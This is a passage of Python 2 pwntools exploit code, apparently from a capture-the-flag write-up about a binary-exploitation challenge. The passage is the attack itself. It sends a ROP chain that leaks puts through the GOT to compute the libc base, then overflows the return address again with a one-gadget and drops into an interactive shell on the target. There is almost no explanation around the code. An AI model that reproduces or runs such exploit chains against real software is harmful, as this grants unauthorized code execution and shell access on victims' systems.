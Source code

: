 ```

sendVal(popRdi)
sendVal(putsGot)
sendVal(putsPlt)
sendVal(startMain)

# Send done so our code executes
target.sendline('done')

# Print out the target output
print target.recvuntil('BON VOYAGE!\n')

# Scan in, filter out the libc infoleak, calculate the base
leak = target.recv(6)
leak = u64(leak + "\x00"*(8-len(leak)))
base = leak - libc.symbols['puts']

print "libc base: " + hex(base)

# Fill up the space between the start of our input and the retun address
# For the second round of exploiting the bug
for i in xrange(7):
    sendVal(0xdeadbeefdeadbeef)

# Overwrite the return address with a onegadget
sendVal(base + oneShot)

# Send done so our rop chain executes
target.sendline('done')

target.interactive()
```
